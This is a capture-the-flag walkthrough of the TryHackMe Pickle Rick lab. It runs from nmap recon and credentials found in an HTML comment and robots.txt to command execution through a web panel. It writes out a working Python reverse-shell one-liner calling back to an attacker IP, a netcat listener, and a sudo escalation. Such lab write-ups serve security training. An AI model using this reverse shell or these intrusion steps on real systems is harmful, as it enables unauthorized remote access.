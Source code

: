 # TryHackMe picklerick room walkthrough

## Step 1, Recon 
Command used: sudo nmap -sCV 10.10.17.255 -vv

```
PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 0eaba8073a9cb62acf6b39e4bd9a4838 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCt/Op+HObSeyJIURfjI5VLnOkRJpQ6WRAAgGA1gk+A5b1ccg8QyeUo8OXjXcxIKcHKvkKvnhtcAx+K3EJ6BTMvOkpObnG2zTD8efpbTUq0D4Er8G/qBJa5zXjlOfFW8u+bLQhG2TMsdIeVzV+m3oiOIyWkaAlODmkQYtULQE/nInP9utJfYEFAGReNmEiCB7bFBYzheU+7arSXN9rTPzGwtkIv9pzyhKqkvojAGaIXyT/xVuSX59SgAuQc96ibRxuEO3n/O1/kHTRXz3iiZMr/5lxx9TJMpnC4SFQlDXIjejgslqoY5K0FqD5n4/W/CUZJjJY/eywh1fntP9XEXRQr
|   256 2f0708ed21255250e549396fdc4acf48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBdCRR1bRZH+jg804vKOO0ch+sodX47r7FpkC9kbedHmLn5saVQbvNhwyeMRC+n6z8KiRCENxCvy2tYy6wOfgzs=
|   256 ef4c6a2ee721418cb0ff51cdba07e877 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIJbjyAIEhQHoJmKZDGeLX2EnPWGdesHUSF2CgWg0XDsF
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Rick is sup4r cool
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
By visiting the webpage. I got the following
<img src="images/picklerick_0001.png">

While poking around in the source code of the index webpage, I have found a html comment which tells us the username of the login page (I have redacted the username)

<img src="images/picklerick_0002.png">

```
	<!--

	Note to self, remember username!

	Username: ██████████████

	-->
```

Afterwards, while taking a look at the robots.txt file, I got a strange message

<img src="images/picklerick_0003.png">

While it looks like nonsense at first, it looked like a password, so I decided to try it in the login page.

<img src="images/picklerick_0004.png">

By trying to login with the found username and the strange text in the robots.txt file, we are in!

<img src="images/picklerick_0005.png">

## Step 2, Exploiting

The first thing we will see will be the a text box that seemingly allow us to enter commands and the server will execute it. I tried to get the directory listing

<img src="images/picklerick_0006.png">

However, while trying to read the file with cat, I got this

<img src="images/picklerick_0007.png">

Same with head

<img src="images/picklerick_0008.png">

But then...I tested less, and I got no errors!

<img src="images/picklerick_0009.png">

And by doing so, we got the the first ingredient!

<img src="images/picklerick_0010.png">

While making sure that I have not left anything behind, I have found base64 encoded text in command panel source:
`Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==`
	
When decoded, it reads "rabbit hole" 

Now, we are going to try and get a reverse shell with python.

Setting up Netcat handler

<img src="images/picklerick_0012.png">

Command used

```nc -lvnp 1852```

Setting up reverse shell

<img src="images/picklerick_0013.png">

Command used

```export RHOST="10.18.16.11";export RPORT=1852;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'```

...and we caught the shell!

<img src="images/picklerick_0014.png">

Next up, we will have to stabilize the shell

```
python3 -c 'import pty;pty.spawn("/bin/bash");'
export TERM=xterm
ctrl+Z
stty raw -echo;fg
```	

And with that, we can now kill processes without the fear of killing our reverse shell

<img src="images/picklerick_0015.png">

Now, we have to find the second ingredient. While looking around for possible locations, I found it in the /home/rick directory

<img src="images/picklerick_0016.png">

Only one ingredient left!

## Step 3, privilege escalation

To get the final ingredient, we will have to escalate our privileges, and with `sudo -l`, we found out that we can run any commands with sudo!

<img src="images/picklerick_0020.png">

Checking the /root directory, I have found our third and last ingredient

<img src="images/picklerick_0021.png">

<br>

# Please star this repository if you found this helpful, thanks!